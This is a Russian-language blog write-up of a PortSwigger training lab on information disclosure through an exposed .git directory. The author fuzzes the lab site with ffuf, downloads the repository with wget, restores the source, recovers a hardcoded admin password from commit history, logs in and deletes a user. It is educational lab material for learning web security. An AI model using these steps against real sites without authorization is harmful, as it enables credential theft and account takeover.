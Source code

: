 ```yaml
---
title: "Information disclosure in version control history"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history"
classes: wide
---
```


В лабораторной работе можно получить доступ к системе контроля версий git и извлечь из нее данные для входа в учетную запись администратора.

Для решения нужно залогиниться от лица админа и удалить пользователя `carlos`.

```
https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net
```

## Solution

Осмотрю сайт. Попробую залогиниться с постоянными кредами в лабах `PortSwigger` — `wiener`:`peter`, хоть их нам и не дали. Успех ~~взломал, получается~~

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/1.png){: height="200" .align-center}

Ладно, пойду запускать `ffuf`:

```bash
cu63:~/ $ ffuf -u https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                                                                                                                                                                                                                               [17:04:24]

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 236ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 296ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 243ms]
.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 324ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 371ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 69ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 71ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 81ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 157ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [1437/4686] :: Job [1/1] :: 54 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

Сразу интересно) Пойду смотреть файлы `.git`:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/2.png){: height="200" .align-center}

Вот такое нашел в логах:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/3.png){: height="200" .align-center}

Скачаю директорию `.git` к себе на комп:

```bash
wget -r https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/.git
```

Зайду в эту папку и введу следующую команду:

```bash
git restore .
```

Я смог восстановить файлы:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/4.png){: height="200" .align-center}

Попробу посмотреть логи изменений через `git show`:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/5.png){: height="200" .align-center}

Можно увидеть, что пароль `9fpnrxua13e5nx90y6kf` раньше был захардкожен, а теперь берется из `env`. Но я все равно его достал. Бегом в ЛК, пока не спалили)

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/6.png){: height="200" .align-center}

Удалил пользователя, а значит лаба решена)

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Information_disclosure_in_version_control_history/7.png){: height="200" .align-center}
